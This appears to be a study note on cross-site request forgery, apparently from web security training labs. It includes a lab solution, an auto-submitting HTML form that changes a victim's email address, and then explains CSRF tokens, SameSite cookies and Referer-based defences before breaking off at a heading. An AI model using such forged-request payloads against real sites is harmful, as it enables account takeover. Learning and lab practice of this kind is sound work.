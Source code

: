 ```html
<input type="hidden" name="csrf" value="<CSRF_TOKEN>" /> 
```

###### Lab: CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.

Craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server:

```html
<form method="POST" action="https://0abe009403dcb13c80814e53005b00b7.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="pwned@evil-user">
</form>
<script>
document.forms[0].submit();
</script>
```

- Deliver to the victim. The lab should be solved!

## Common defences against CSRF

- **CSRF tokens** - A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When attempting to perform a *state-changing action* (`POST`, `PUT`, `PATCH`, `DELETE`), such as submitting a form, the client must include the correct CSRF token in the request. This makes it very difficult for an attacker to construct a valid request on behalf of the victim.
    
- **SameSite cookies** - *SameSite* is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. To do this, you just have to include the `SameSite` attribute in the `Set-Cookie` response header, along with a preferred value :

	`Set-Cookie: session=0F8tgdOhi9ynR1M9wa3ODa; SameSite=Strict`

	- SameSite can have 3 main values: 
		- `Strict`: cookies are transmitted only if the request originates from the same domain;
		- `Lax`: since 2021, Chrome enforces `Lax` SameSite restrictions by default (cookies are transmitted only if the request comes from the same domain or top-level navigation, such as clicking on a link or the request uses the `GET` method);
		- `None`: cookies are always transmitted. SameSite restrictions disabled.

- **Referer-based validation** - Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request has been originated from the application's own domain. This is generally less effective than CSRF token validation. 

##### Referer header
The *HTTP Referer header* (which is inadvertently misspelled in the HTTP specification) is an optional request header that contains the URL of the web page from which is originated the request. It is generally added automatically by browsers when a user triggers an HTTP request (like when clicking a link or submitting a form).

## Common flaws in CSRF token validation
